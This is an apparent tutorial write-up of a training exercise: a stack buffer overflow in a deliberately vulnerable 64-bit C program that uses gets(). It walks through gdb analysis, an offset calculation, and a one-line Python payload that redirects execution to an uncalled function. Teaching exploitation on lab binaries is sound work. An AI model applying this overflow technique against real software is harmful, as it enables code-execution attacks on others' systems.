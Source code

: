 irst let's see if it is a 32 bit or 64 bit elf.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b3_64$ file b3_64
b3_64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b03620f900a0d38c76f152f1d4f974784315b90f, not stripped
```

Now that we know it is a 64 bit elf, let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

void fun0()
{
        char buf0[100];
        printf("What is 1 divided by 0?\n");
        gets(buf0);
}


int main()
{
        printf("To reach the end of this room, you must answer one simple question with base 10 numbers.\n");
        fun0();
}

void end()
{
        printf("That is one way of reaching the end. Level Cleared\n");
}
```

So we can see here, our objective is to get the code to run the end() function. However it isn't called anywhere in the code, or given the oppurtunity to through the use of something like an if then statement. We see that
in the fun0() function, it has a buffer overflow vulnerabillity. We can use the buffer overflow vulnerabillity to overflow the rip register (since it is 62 bit) to change the return address to that of the end() function that way when fun0 is done executing it will execute the end() function.

We will need to calculate the difference between the start of our input and where the rip register is stored, and find the address of the end() function. For this we can use gdb.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b3_64$ gdb ./b3_64
```

One wall of text later...

```
gdb-peda$ disas fun0
Dump of assembler code for function fun0:
   0x0000000000400566 <+0>: push   rbp
   0x0000000000400567 <+1>: mov    rbp,rsp
   0x000000000040056a <+4>: sub    rsp,0x70
   0x000000000040056e <+8>: mov    edi,0x400648
   0x0000000000400573 <+13>:  call   0x400430 <puts@plt>
   0x0000000000400578 <+18>:  lea    rax,[rbp-0x70]
   0x000000000040057c <+22>:  mov    rdi,rax
   0x000000000040057f <+25>:  mov    eax,0x0
   0x0000000000400584 <+30>:  call   0x400450 <gets@plt>
   0x0000000000400589 <+35>:  nop
   0x000000000040058a <+36>:  leave  
   0x000000000040058b <+37>:  ret    
End of assembler dump.
gdb-peda$ b *fun0+35
Breakpoint 1 at 0x400589
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b3_64/b3_64 
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
75395128
```

Another wall of text later...

```
Breakpoint 1, 0x0000000000400589 in fun0 ()
gdb-peda$ x $rbp-0x70
   0x7fffffffdde0:  (bad)  
gdb-peda$ find 75395128
Searching for '75395128' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x602420 ("75395128\n")
[stack] : 0x7fffffffdde0 ("75395128")
gdb-peda$ x/x $rbp-0x70
0x7fffffffdde0: 0x37
gdb-peda$ x/d $rbp-0x70
0x7fffffffdde0: 55
gdb-peda$ x/s $rbp-0x70
0x7fffffffdde0: "75395128"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x400589 in fun0; saved rip = 0x4005a4
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
  gdb-peda$ p end
$1 = {<text variable, no debug info>} 0x4005ab <end>
```

So we have the location of where the buffer starts, which is 0x7fffffffdde0. In addition to that we also have the location of the rip register (64 bit equivalent of the eip register) 0x7fffffffde58, and the location of the end() function 0x4005ab. Now we can calculate the offset between our input, and the rip register.

```
guyinatuxedo@tux:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffde58 - 0x7fffffffdde0
120
>>> quit()
```

So we need to input 120 bytes in order to reach the rip register. Then we can push the rip register onto the stack in little endian. Let's make an exploit to do that.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b3_64$ python -c 'print "0"*120 + "\xab\x05\x40"' | ./b3_64
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
That is one way of reaching the end. Level Cleared
```

And just like that, we hijacked code execution and pwned the binary. 
